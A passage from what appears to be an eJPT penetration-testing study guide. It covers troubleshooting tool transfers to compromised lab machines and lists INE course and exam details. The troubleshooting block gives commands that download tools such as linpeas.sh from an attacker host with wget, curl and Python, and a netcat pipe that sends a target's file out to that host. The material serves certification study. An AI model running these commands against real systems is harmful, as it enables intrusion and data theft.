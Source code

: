 ### File Transfer Failures

**Issue**: Unable to transfer files to compromised systems
```bash
# Symptoms:
www-data@target:~$ wget http://10.10.14.5:8080/linpeas.sh
bash: wget: command not found

# Solutions:
# Multiple transfer methods
# Method 1: HTTP (if wget available)
python3 -m http.server 8080  # On attacker
wget http://10.10.14.5:8080/tool.py  # On target

# Method 2: cURL alternative
curl -O http://10.10.14.5:8080/tool.py

# Method 3: Python download
python -c "import urllib; urllib.urlretrieve('http://10.10.14.5:8080/tool.py', 'tool.py')"

# Method 4: Base64 encoding
base64 tool.py > tool_b64.txt  # On attacker
echo "UEsDBBQAAAAI..." | base64 -d > tool.py  # On target

# Method 5: Netcat transfer
nc -nlvp 9999 > received_file.txt  # On attacker
cat file.txt | nc 10.10.14.5 9999  # On target
```

---

## 📚 Study Resources & References

### Official eJPT Resources

#### Primary Study Materials
- **INE Penetration Testing Student Course (PTS)**
  - URL: https://ine.com/learning/areas/cyber-security
  - Content: 144+ hours of video content
  - Labs: 30+ hands-on lab exercises
  - Cost: INE Starter subscription ($39/month)

- **eJPT Certification Guide**
  - Format: Official certification handbook
  - Content: Exam objectives, study guide, sample questions
  - Availability: Included with exam purchase

#### eJPT Exam Registration
- **Cost**: $249 USD (includes 3 attempts)
- **Validity**: 365 days from purchase
- **Duration**: 72 continuous hours
- **Format**: Browser-based lab environment
- **Questions**: 35 multiple-choice questions
